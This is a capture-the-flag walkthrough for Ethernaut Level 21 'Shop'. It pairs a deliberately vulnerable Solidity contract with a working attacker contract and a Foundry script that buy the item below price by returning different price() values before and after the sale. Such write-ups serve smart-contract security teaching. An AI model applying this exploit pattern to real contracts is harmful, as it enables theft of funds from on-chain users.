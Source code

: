 # Level 21 - Shop ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/21" %}

### Level Setup

{% hint style="info" %}
Сan you get the item from the shop for less than the price asked?

**Things that might help:**

* `Shop` expects to be used from a `Buyer`
* Understanding restrictions of view functions
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Shop.sol" %}

{% code lineNumbers="true" fullWidth="false" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-21

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-21

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/41e8352c33605e6e95a29c2bf937f92d53fb45a3/src/Level21.sol" %}

{% code title="src/Level21.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                         LEVEL 21 - SHOP                      │
// ================================================================
interface IShop {
    function buy() external;
    function isSold() external view returns (bool);
    function price() external view returns (uint256);
}

contract AttackContract {
    function price() public view returns (uint256) {
        bool isSold = IShop(msg.sender).isSold();
        uint256 askedPrice = IShop(msg.sender).price();
        if (!isSold) {
            return askedPrice;
        } else {
            return 0;
        }
    }

    function buyFromShop(address _shopAddr) public {
        IShop(_shopAddr).buy();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/41e8352c33605e6e95a29c2bf937f92d53fb45a3/script/Level21.s.sol" %}

{% code title="script/Level21.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level21.sol";

// ================================================================
// │                         LEVEL 21 - SHOP                      │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        vm.startBroadcast();
        AttackContract attackContract = new AttackContract();
        attackContract.buyFromShop(targetContractAddress);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
Contracts can manipulate data seen by other contracts in any way they want.

It's unsafe to change the state based on external and untrusted contracts logic.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_21_Shop.md" %}
